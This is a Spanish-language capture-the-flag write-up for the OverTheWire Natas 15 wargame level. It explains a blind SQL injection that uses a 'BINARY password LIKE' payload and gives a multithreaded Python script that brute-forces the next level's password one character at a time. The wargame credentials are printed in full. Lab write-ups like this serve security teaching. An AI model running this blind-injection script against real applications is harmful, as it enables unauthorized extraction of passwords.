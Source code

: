 # Natas 15

#### URL: http://natas15.natas.labs.overthewire.org
#### Credenciales: natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx

Aqui necesitamos obtener la contraseña por medio de una inyección SQL, pero el programa solo nos dice que el usuario existe si el resultado de la peticion devuelve al menos una fila

``` php
if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
```

Tendremos que hacerlo a ciegas, probando caracter a caracter hasta encontrar los 32 caracteres validos de la contraseña 

Podemos tanto usar la funcion SUBSTRING como el operador LIKE con la palabra clave BINARY para hacerlo sensible a mayusculas

``` python3
from base64 import b64encode
import requests
import string
import threading
import sys

URL="http://natas15.natas.labs.overthewire.org/index.php"
headers={'Authorization':f'Basic {b64encode(b"natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx").decode()}'}
book = string.ascii_letters + string.digits
passwd = ""
threads = []

def requester(c):
        global found_char
        data = {'username':f'natas16" AND BINARY password LIKE "{passwd+c}%" -- '}
        x = requests.post(URL,headers=headers,data=data)
        if "This user exists." in x.text:
            found_char=c

for i in range(1,32+1):
    found_char=None
    for c in book:
        t = threading.Thread(target=requester,args=(c,)) 
        threads.append(t)
        t.start()
    for t in threads:
        t.join()
    if found_char:
        passwd+=found_char
        print(f"Found {found_char} ----> {passwd}")
    else:
        sys.exit(1)
print(passwd)
```

Ejecutando este script con `python3 script.py` nos da como resultado hPkjKYviLQctEW33QmuXL6eDVfMW4sGo.

`natas16:hPkjKYviLQctEW33QmuXL6eDVfMW4sGo`

PD: Uso multiples hilos en caso de ser posible para que sea mas rapido el proceso.
